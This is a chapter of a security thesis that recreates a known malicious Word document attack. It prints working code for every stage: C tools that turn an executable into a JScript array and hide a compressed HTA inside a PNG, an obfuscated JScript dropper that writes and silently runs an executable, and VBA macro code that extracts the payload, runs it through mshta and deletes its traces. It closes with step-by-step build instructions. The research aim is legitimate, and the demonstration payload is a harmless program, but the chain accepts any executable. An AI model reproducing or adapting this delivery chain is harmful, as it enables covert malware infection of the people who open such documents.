\chapter{Implementation}
One of the reasons that malware such as the one we analysed can be hard to de-obfuscate and analyse is the interplay of
the different tools that go into creating it. In recreating this malware, we identified 5 different items that needed
to be worked on individually for the malware to work. These 5 items fall within 4 categories, corresponding to the
following subsections. 

The implementation closely followed an article by Hossein Jazi, senior threat intelligence analyst with Malwarebytes,
published on the blog of the company. The article gave us the baseline for the recreation, showing the most important
parts of the malicious document and the payload, for us to base our re-implementation on. Some methods the malware
authors used to create the payload were not disclosed in the article, so we needed to improvise our own solutions.

\section{Payload} \label{sec:impl-payload}
The payload itself is the part of the work we took the most liberty with. Originally, the executable dropped by the
payload loader contained an encrypted second-stage payload that communicated with a command and control server,
something truly out of scope of this work. Instead, we decided to keep it simple and create two dummy payloads instead.

The first dummy payload we created was a simple C Hello World program that printed a message to the screen and waited 
for user input, upon which it halted. This payload was created in order to have a payload of a minimal size that is 
can be extracted quickly by the loader. Additionally, since this payload is executed in the background by the
\acrshort{HTA}, it will continue running indefinitely since it will never record the key press needed to terminate.
We view this as beneficial, since it makes the malware execution easier to observe and recreates the notion of a process 
being left behind to communicate with the command and control servers.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.9\textwidth]{figures/payload_exe_demo.png}
  \label{c-payload-demonstration}
  \caption{The simple payload used in the malware recreation}
\end{figure}

The second payload was a larger payload with a simple GUI that was meant to pop up on the victim's screen after a
successful execution. We tried creating the executable in multiple different languages using Microsoft Visual Studio,
but in the end even the most minimal payloads were around 80 megabytes in size, leading to hugely inflated sizes across 
the different stages of the payload deployment. Working with such large payloads proved to be inefficient, and we
decided to stick with the first payload.

\section{Payload Creation Utilities - C} \label{sec:impl-utilities}
Creating all the separate parts of the payload is something the original article didn't dive into, 
so we decided to create our own utilities to aid in this process. 

There were two tasks that needed to be done to prepare the payload executable for use: 
\begin{enumerate}
  \item Serialise the payload executable into a JavaScript array of Unicode character codes and embed it into the
    \acrfull{HTA}
  \item Compress the \acrshort{HTA} and attach it to the end of a \acrshort{PNG} image
\end{enumerate}

\subsection{Payload Serialisation}
The payload serialisation was a rather straightforward process. Since the payload loader deserialises the payload by
using the JavaScript static method \verb+String.fromCharCode()+ we want to split the payload executable into an array 
of conformant data. The \verb+String.fromCharCode()+ method takes an arbitrary number of arguments, all of which are
numbers between 0 and 65535 -- this corresponds to the \verb+unsigned short+ data type in C. 

The utility functions in a very straightforward manner, it reads the executable file at the path provided as the first 
argument to the program and saves it into a buffer array of \verb+unsigned short+ elements and then prints it to
\verb+stdout+, which can be redirected to a file. We chose to print to \verb+stdout+ in order to make writing to the
\acrshort{HTA} file easier in an automated script. The output is an array that can be copied into the source code of
the \acrshort{HTA} file directly.

\begin{lstlisting}[language=C, caption={Payload serialisation function}][H]
int print_array(FILE *file) {
  size_t read;
  unsigned short buffer[8192];

  // Use var over const because MS JScript doesn't always support it
  printf("var data = [\n  ");
  do {
    read = fread(buffer, 2, sizeof buffer / 2, file);
    for (size_t i = 0; i < read; i++) {
      printf("%d, ", buffer[i]);
      if (i % 10 == 0 && i != 0) {
        printf("\n  ");
      }
    }
  } while (read > 0);

  printf("\n]\n");
  return 1;
}
\end{lstlisting}

\subsection{Embedding the Payload in an Image}
The second utility works in a very similar manner. Its purpose is essentially just concatenating two files, so it
alternates reading from the input file and appending to the output file using a buffer of \verb+unsigned char+ elements. 
We also implemented rudimentary input argument checking to help a user order the arguments correctly -- the program 
expects the target \acrshort{PNG} file as the first argument and the compressed payload as the second argument.

\begin{lstlisting}[language=C, caption={Payload concealment function to attach the compressed \acrshort{HTA} to the
\acrshort{PNG}.}][H]
int hide_payload(FILE *image, FILE *executable) {
  unsigned long read, wrote;
  unsigned char buffer[8192];
  unsigned char iend[] = {73, 69, 78, 68};

  // Overwrite the IEND PNG image trailer
  fseek(image, -4, SEEK_END); 

  // Skip the zlib header for the appended file -- appends to the
  // existing zlib data
  fseek(executable, 3, SEEK_SET);
  do {
    read = fread(buffer, 1, sizeof buffer, executable);
    wrote = fwrite(buffer, 1, read, image);

    // Indicates an error while writing
    if (wrote != read) {
      return 0;
    }
  } while ((read > 0));

  // Append the IEND image trailer behind the appended data
  fwrite(iend, 1, 4, image); 
  return 1;
}
\end{lstlisting}

The full source code of both of utilities can be found on the GitHub repository for this 
work\footnote{\url{https://github.com/memoriesadrift/bsc-thesis}}, with a full guide on reproducing the results of this 
thesis in the \nameref{sec:reproducing-results} section.

\section{Payload Loader - JavaScript} \label{sec:impl-loader}
The payload loader, or payload dropper, is responsible for reconstructing the executable payload on the victim's device
and running it. It is written in JavaScript, or more precisely, Microsoft JScript, a substandard of JavaScript with
added capabilities meant to be run on Microsoft Windows systems, for example by the application we are using to execute
the \acrfull{HTA} hosting the payload loader.

The only contents of the \acrshort{HTA} are an empty body and an \acrshort{HTML} script tag containing the payload
loader, so we don't deem it necessary to discuss it and will focus solely on the JavaScript contents of the script
tag. 

It is evident that the attackers wanted this part of the malware code to be the hardest to analyse, as it is more
heavily obfuscated than any other part of the code we analysed. Only the second-stage payload which we didn't 
analyse or recreate was more obfuscated. These obfuscations are mostly symbolic in nature, relying on quirks of the
JavaScript programming language as well as string encoding, usage of hexadecimal numbers instead of decimal numbers,
as well as indirection in array accesses.

As a first step in our re-implementation process, we reconstructed the original source code by de-obfuscating the 
program. It is important to note that the code is de-obfuscated to run using Microsoft JScript and isn't necessarily 
the simplest or most elegant way to write the program, adhering to modern JavaScript best-practices.

\begin{lstlisting}[language=JavaScript, caption={Unobfuscated payload loader}][H]
window.resizeTo(0, 0)
try {
  var data = [104,101, ... ] // payload 
  var path = "C:\\Users\\Public\\Libraries\\AppStore.exe"
  var fso = new ActiveXObject("Scripting.FileSystemObject")

  var content = ''
  for (var i = 0; i < data.length; i++) {
    content.push(String.fromCharCode(data[i]))
  }

  var file = fso.CreateTextFile(path, true)
  file.Write("MZ")
  file.Close()

  file = fso.OpenTextFile(path, 8, false, -1)
  file.Write(content)
  file.Close()
  var shell = new ActiveXObject("WScript.Shell")
  shell.Run(path, 0)

} catch (error) {}
window.close()
\end{lstlisting}

When looking at this unobfuscated source code, the functionality of the program as a whole is clear -- it uses Microsoft
Windows native tools available in Microsoft JScript to create a file (\verb+AppStore.exe+) and writes \verb+MZ+ to it,
followed by strings obtained from an array of 16-bit numbers, then it runs the file.

Obfuscation is a technique used to hide implementation details from analysis of the source code, and while provably
secure obfuscation which doesn't reveal any details is impossible, it nevertheless remains a popular tactic to 
protect from analysis, especially by malware authors \cite{obfuscation}. 

The first and most benign of the obfuscations used was the replacement of readable variable names with gibberish, such
as hexadecimal values prefixed with underscores (as JavaScript variable names may not start with a number), or even
single letters. For example, data used during the program's execution to run commands is stored in an array which
eschews a readable name for \verb+_0x4fba+. Additionally, numbers aren't handled in decimal form, but rather in
hexadecimal form. Since most of us aren't used to working with hexadecimal numbers, this impedes readability further.

Another interesting obfuscation comes from how the array is accessed. There are two obfuscations at play here, the
first is the fact that the function used to access array elements, \verb+_0x187d+, has two arguments, with the second
going unused. The second obfuscation present in this function is that it retrieves a value at a fixed offset from the
index provided in the first argument of the function, introducing a layer of indirection.

A final noteworthy element in this part of the code is how the path string is saved in the array as a split string, we
assume this is in order to not be discovered by automated scanners looking for paths.

\begin{lstlisting}[language=JavaScript, label={lst:obfuscated-access}, caption={Obfuscated data retrieval from an array.}][H]
var _0x4fba = [
  'OpenTextFile', 'CreateTextFile', '245822eefsqR', '598829yCFgdo',
  'close', '302606ILGEZd', '124169YwNuaX', 'resizeTo', 'Close', 'Write',
  '718973kiZVEV', 'fromCharCode', 'C:/U' + 'sers/Publi' + 'c/Librarie' +'s/App' + 'Store.e' + 'xe',
  '108898gckcJk', '1hfvbvr', '1oCpDrk', '1TeNYee', '392776SHsKeZ'
]

var _0x187d = function(_0x1d5195, _0x59a857) {
  _0x1d5195 = _0x1d5195 - 0x1dc;
  var _0x4fbae6 = _0x4fba[_0x1d5195];
  return _0x4fbae6;
}
\end{lstlisting}

The next obfuscation of note relies on a quirk of the JavaScript language, and we found it very interesting for this
reason. \emph{Objects} in JavaScript are complex data structures akin to dictionaries which allow arbitrary storage of
key value data. These properties are most commonly accessed using dot notation, but bracket notation is also possible,
allowing for programmatic access of object properties using arbitrary strings. Bracket notation is considered unsafe and 
is very rarely used in practice, meaning the average reader will be confused by code that uses it, such as this payload
loader. The complexity is further increased by the use of the function described in listing \ref{lst:obfuscated-access} 
to further obscure what is actually happening.

\begin{lstlisting}[language=JavaScript, caption={Bracket notation object property access with obfuscated argument.}][H]
// content += String.fromCharCode(data[i])
content += String[_0x556975(0x1dc)](data[i]); 
\end{lstlisting}

Overall, these obfuscations slightly impede analysis without slowing the execution of the loader in any significant way.
For completeness' sake we use the obfuscated loader in the malware recreation, though we have tested the unobfuscated
loader as well to verify correctness. The listing below shows the whole obfuscated payload with explanatory comments
alongside each obfuscated part.

\begin{lstlisting}[language=JavaScript, caption={Obfuscated payload loader.}][H]
// Data array used to execute commands
var _0x4fba = [
  'OpenTextFile', 'CreateTextFile', '245822eefsqR', '598829yCFgdo',
  'close', '302606ILGEZd', '124169YwNuaX', 'resizeTo', 'Close', 'Write',
  '718973kiZVEV', 'fromCharCode', 'C:/U' + 'sers/Publi' + 'c/Librarie' +'s/App' + 'Store.e' + 'xe',
  '108898gckcJk', '1hfvbvr', '1oCpDrk', '1TeNYee', '392776SHsKeZ'
] // split the path string to make automated scanning more difficult

// Pointless second argument for obfuscation
var _0x187d = function(_0x1d5195, _0x59a857) {
  _0x1d5195 = _0x1d5195 - 0x1dc;
  var _0x4fbae6 = _0x4fba[_0x1d5195];
  return _0x4fbae6;
}

var _0x556975 = _0x187d // Function alias

// self invoking function
// arg1: the command array _0x4fba
// arg2: the value 0x6d993 == 448915
// 
// Reorders the array elements until they are in the following order:
// [
//  fromCharCode, C:/Users/Public/Libraries/AppStore.exe,
//  108898gckcJk, 1hfvbvr, 1oCpDrk, 1TeNYee, 392776SHsKeZ,
//  OpenTextFile, CreateTextFile, 245822eefsqR, 598829yCFgdo,
//  close, 302606ILGEZd, 124169YwNuaX, resizeTo, Close, Write, 
//  718973kiZVEV
// ]
(function(_0x284e13, _0x5d8387) {
  var _0x113863 = _0x187d; // Function alias
  while (!![]) {
    try {
      var _0x589f0d = parseInt(_0x113863(0x1e2)) + -parseInt(_0x113863(0x1df)) 
        * parseInt(_0x113863(0x1e8)) + parseInt(_0x113863(0x1de))
        + parseInt(_0x113863(0x1e6)) + -parseInt(_0x113863(0x1ed))
        + -parseInt(_0x113863(0x1e1)) * -parseInt(_0x113863(0x1e5))
        + parseInt(_0x113863(0x1e9)) * parseInt(_0x113863(0x1e0));
      if (_0x589f0d === _0x5d8387) break;
      // places first element at the back of arr
      else _0x284e13['push'](_0x284e13['shift']()); 
    } catch (_0xecf87d) {
      // the error path ultimately does the same as the 
      // normal path if _0x589f0d != _0x5d8387 (second arg)
      // places first element at the back of arr
      _0x284e13['push'](_0x284e13['shift']()); 
    }
  }
  // Calls window.resizeTo(0, 0)
}(_0x4fba, 0x6d993), window[_0x556975(0x1ea)](0x0, 0x0)); 

try {
  var b = new ActiveXObject('Scripting.FileSystemObject'),
    d = _0x556975(0x1dd); // d = 'C:/Users/Public/Libraries/AppStore.exe'

  e = b[_0x556975(0x1e4)](d, !![]), //call Scripting.FileSystemObject.CreateTextFile(path, true)
    e[_0x556975(0x1ec)]('MZ'), // call Scripting.FileSystemObject.Write('MZ') on the created file
    e['Close'](); // close the file
  var data = [144, 3, 0, 4, 0, 65535, 0, 184], // replace with payload
      i, len;
  len = data['length'];
  var content = '';
  for (i = 0x0; i < len; i++) {
    content += String[_0x556975(0x1dc)](data[i]); // content += String.fromCharCode(data[i])
  }
  e = b[_0x556975(0x1e3)](d, 0x8, ![], -0x1), // call Scripting.FileSystemObject.OpenTextFile(path, 8, false, -1)
    e[_0x556975(0x1ec)](content), // call Scripting.FileSystemObject.Write(content) on the opened file
    e[_0x556975(0x1eb)](); // close the file
  var c = new ActiveXObject('WScript.Shell');
  c['Run'](d, 0x0); // run the payload
  
} catch (_0x1f5265) {}
window[_0x556975(0x1e7)](); // window.close()
\end{lstlisting}

\subsection{Compressing the Payload Loader}
Since the payload loader is the final payload that needs to be attached to the image, we need to adequately prepare it
for this task. In practice, this means compressing it in the same way the \acrshort{PNG} data is stored and masking it
as part of the image. 

To compress the data the same way as the \acrshort{PNG} data stream, we need to achieve the following compression
signature using the \verb+binwalk+ utility: \verb+Zlib compressed data, default compression+. Standard compression tools
we used often append additional headers that we don't want and we found the easiest and most straightforward utility to
use to simply compress data using default Zlib compression to be \verb+zlib-flate+, which is part of the \verb+qpdf+
package on Linux systems. This can be applied to the \acrshort{HTA} payload using the following command: 
\verb+zlib-flate -compress < payload.hta > compressed_payload.zip+.

The payload is now ready to be embedded within the \acrshort{PNG} image using the payload creation utilities described
in section \ref{sec:impl-utilities}.


\section{Microsoft Word Document - \acrshort{VBA} Payload} \label{sec:impl-macro}
Recreating the final Microsoft Word Document made all the other parts come together. Even though the main structure of
the document macro payload was outlined in the article, some notable functions were not shown, such as the Base 64
decoding function and, most importantly, the payload extracting \verb+WIA_ConvertImage+ function.

The lack of this function made recreating the malware a lot more difficult. At first, we thought that the function might
be a library function, but it turned out to simply be a name for an image conversion function which uses the
\acrfull{WIA} \acrshort{API}. While searching for the function online, we found a code dump of a malicious document which
heavily resembled our analysed payload on \url{www.docguard.io}\footnote{\url{
https://app.docguard.io/0193bd8bcbce9765dbecb288d46286bdc134261e4bff1f3c1f772d34fe4ec695/results/codes}
[Last accessed 3.6.2022]}. While this function may have not been identical to the one in our analysed payload, it
provided a good starting point for our testing. %TODO: Amend if Jazi replies to the email.

\begin{lstlisting}[language=VBScript, caption={The image conversion function obtained from a source code dump.}][H]
Public Function WIA_ConvertImage(sInitialImage As String, sOutputImage As String, Optional lQuality As Long = 85) As Boolean
    On Error GoTo Error_Handler
    Dim oWIA As Object   'WIA.ImageFile
    Dim oIP As Object    'ImageProcess
    Dim sFormatID As String
    Dim sExt As String
    sFormatID = "{B96B3CAB-0728-11D3-9D7B-0000F81EF32E}"
    sExt = "BMP"
    If lQuality > 100 Then lQuality = 100
    Set oWIA = CreateObject("WIA.ImageFile")
    Set oIP = CreateObject("WIA.ImageProcess")
    oIP.Filters.Add oIP.FilterInfos("Convert").FilterID
    oIP.Filters(1).Properties("FormatID") = sFormatID
    oIP.Filters(1).Properties("Quality") = lQuality
    oWIA.LoadFile sInitialImage
    Set oWIA = oIP.Apply(oWIA)
    oWIA.SaveFile sOutputImage
    WIA_ConvertImage = True

Error_Handler_Exit:
    On Error Resume Next
    If Not oIP Is Nothing Then Set oIP = Nothing
    If Not oWIA Is Nothing Then Set oWIA = Nothing
    Exit Function

Error_Handler:
    Resume Error_Handler_Exit
End Function
\end{lstlisting}

This function is tailored for the purpose of this malware, only converting what is necessary for the malware to run -- 
a proper implementation of image conversion using \acrshort{WIA} that we found supports multiple formats, for example. 
Of note is also that this function isn't obfuscated at all, as its benign functionality serves as the obfuscation. 

Unfortunately, this function failed to replicate the behaviour we wanted to achieve. When we tried compressing the
malicious \acrfull{HTA} file into a plain ZIP file and attaching it to a \acrshort{PNG} image, we were unable to get the conversion
function to decompress the appended archive. Since this function is central to the malware obfuscation, the inability to
recreated presents a large obstacle in verifying the malware functionality. We attempted to contact the original
researcher for clarification, however we haven't received an answer yet. %TODO: Update if we do
Regardless, we believe documenting our recreation process may be meaningful for future research.

The document creation was relatively simple -- after the malicious \acrshort{PNG} is placed into the document, it gets
the file name \verb+image001.png+ internally, which manifests later throughout the malware's execution. After this, the
document is ready to be used. After a victim opens the document and enables macros, a message box pops up letting the
user know that the malware will begin executing, in our case.

Malware execution starts by decoding a set of Base 64 encoded values. Following this a path is defined where the
document is saved as \acrshort{HTML}. This step is important as it extracts all the images embedded within the document
into a subdirectory, allowing us to manipulate them programmatically. After this, it also protects itself in order to
avoid the user manipulating the document. In the original attack this is where the lure form was opened, however we
decided that implementing it would be superfluous.

\begin{lstlisting}[language=VBScript, caption={The malicious document saving itself to extract embedded images.}][H]
    DocName = ActiveDocument.Name
    If InStr(DocName, ".") > 0 Then
        DocName = Left(DocName, InStr(DocName, ".") - 1)
    End If

    TempPath = Environ("Temp") & "\" & DocName

    ActiveDocument.SaveAs TempPath, wdFormatHTML, , , , , True
\end{lstlisting}

After this step, the meat of the attack happens. First, the extracted \acrshort{PNG} image is converted to
\acrshort{BMP}. Interestingly, however, the converted file is given a \verb+.zip+ extension. This image is then
executed by using the decoded versions of the encoded strings as arguments. Aside from the image conversion function not
extracting the embedded payload as we required, we also discovered another bug within this part of the malware. This
bug, interestingly, affected string concatenation of the argument passed to \verb+objWMIService.Create()+. When using
the variable \verb+Value+ in the concatenation, the result of the concatenation would be just the variable \verb+Value+,
with the other concatenated elements not being present in the resulting string. Replacing the variable with its
contents, \verb+mshta+, solved this issue.

\begin{lstlisting}[language=VBScript, label={lst:macro-extraction}, 
caption={The meat of the macro -- extracting the payload from the converted image and executing it.}][H]
    TempPath = TempPath & "_files"
    CreatedImageFilePath = TempPath & "\" & imageFileName
    CreatedImageBMPFilePath = Environ("Temp") & "\" & Left(imageFileName, InStrRev(imageFileName, ".")) & Ext1

    Call WIA_ConvertImage(CreatedImageFilePath, CreatedImageBMPFilePath)

    Set objWMIService = GetObject(Calc)
    ' Replace Value with "mshta" for string concatenation to succeed
    objWMIService.Create Value & " " & CreatedImageBMPFilePath

    Kill TempPath & "\*.*"
    RmDir TempPath
\end{lstlisting}

The final two lines of the macro are dedicated to the document covering its tracks. The \verb+Kill+ function deletes all
files at the given path and \verb+RmDir+ removes the now empty directory cleared by the \verb+Kill+ function. This
assures all the temporary files are removed, except the running payload which was extracted outside the \verb+DocumentName_files+
directory (see \verb+CreatedImageBMPFilePath+ assignment in listing \ref{lst:macro-extraction}).

\section{Reproducing Results}\label{sec:reproducing-results}
The full implementation code as well as the full text and \LaTeX\ code of the thesis itself can be found 
on our GitHub, in the following repository: \url{https://github.com/memoriesadrift/bsc-thesis}.

\subsection{Requirements to Run}
Since the recreated malware is designed to run on the Microsoft Windows operating system, running it requires
an installation of this operating system, preferably Windows 10. %TODO: Test other OS, like win11
The development of all the tools except for the Word Document itself was conducted on a GNU/Linux system, with all
the tools being tested on a Windows 10 physical and virtual machine. Aside from the compression mechanism used in this
work, all tools have been tested on Windows as well.

\subsubsection{Microsoft Word Document and VBA Payload}
For editing the code of the macro, a Microsoft Office installation is required, while Microsoft Office running 
on a Windows operating system (ideally Windows 10) is required to run the code. Don't forget to permit macro 
execution in Microsoft Word. 

For viewing convenience we have included the embedded macros in a separate file in the implementation folder on
GitHub, it can be found under \verb+macro.vb+.

\subsubsection{Payload}
While an arbitrary payload can be attached to the \acrshort{PNG} image, the payload provided is a simple C console
application which can be compiled with any C compiler to run on the target operating system. For use with the 
recreated document we recommend compiling using the \acrfull{GCC} on Windows. We tested compilation on GNU/Linux
as well as on the Windows 10 operating systems.

The payload creation utility can be used to attach an arbitrary payload, removing the reliance on the provided 
payload.

\subsubsection{Payload Creation Utilities}
The payload creation utilities are written in C with no reliance on non-standard C libraries and a compilation
shell script is included for convenience. Compilation and execution were tested on GNU/Linux as well as Windows 10
using \acrshort{GCC}.

\subsubsection{Payload Loader}
The payload loader is Microsoft JScript embedded directly within an \acrfull{HTA} file and is used to drop the
executable on the target's device. It is important to note that it is not intended to be executed outside a 
Microsoft Windows environment, as it relies on objects and utilities provided by the Microsoft JScript standard,
a substandard of JavaScript. The script itself should run without issues on Windows 10, where we tested it.

The \acrshort{HTA} file must be populated with a data array containing the payload executable. To generate an array
from an executable, use the \verb+generate_payload_array+ C utility provided with the payload creation utilities.

\subsection{Recreating the Malicious Document}
We provide a shell script that can be used to generate a malicious \acrshort{PNG} file given any \acrshort{PNG} 
image and executable, running through all the steps automatically. This script can technically be executed on Windows,
but it relies on a Linux package, \verb+zlib-flate+ to compress data in a minimal manner. On Windows, we recommend
simply manually running through all the necessary steps without relying on the script, perhaps using a Linux virtual 
machine to  compress the payload, though at that point it's easier to simply run the whole script in a 
Linux virtual machine.

In order to run the script, the \verb+zlib-flate+ utility must be installed on your system. It is the most minimal
compression utility that we were able to find, however if you prefer to use a different one just edit the script to use
it instead. To install the \verb+zlib-flate+ utility, one must install the \verb+qpdf+ package with, for example
\verb+apt install qpdf+ or \verb+pacman -S qpdf+\footnote{Further commands:
\url{https://command-not-found.com/zlib-flate} [Accessed 4.6.2022]}. 

The script goes through the following steps, which can be followed for manually recreating the malware as well.
\begin{enumerate}
    \item Compile payload creation utilities (see subsection \ref{sec:impl-utilities})
    \item Generate a JavaScript array from the provided executable (also see subsection \ref{sec:impl-utilities})
    \item Construct the malicious \acrshort{HTA} file with the gtheenerated array (see subsection \ref{sec:impl-loader})
    \item Compress the \acrshort{HTA} file and append it to the provided image (see subsection \ref{sec:impl-utilities})
\end{enumerate}

After these steps have been preformed, the next step is creating the malicious document, which has to be performed using
the Microsoft Windows operating system. 
\begin{figure}[H]
  \centering
  
\includegraphics[width=0.9\textwidth]{figures/payload_creation_script.png}
  \label{payload_creation_script}
  \caption{Payload creation script, along with file sizes and \texttt{binwalk} results showing a successful execution}
\end{figure}

Create a new macro-enabled document in Microsoft Word, and attach the malicious \acrshort{PNG} image.
Afterwards, open the \emph{Macros} menu by going to \emph{View > Macros} and create a new macro. Inside the macro
editor, copy the macro source code from our GitHub repository, replacing all contents in the editor with the contents of
the macro file. The malicious document is ready for use.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.9\textwidth]{figures/malicious_document.png}
  \label{malicious_document}
  \caption{The malicious document, ready to be used}
\end{figure}

\clearpage


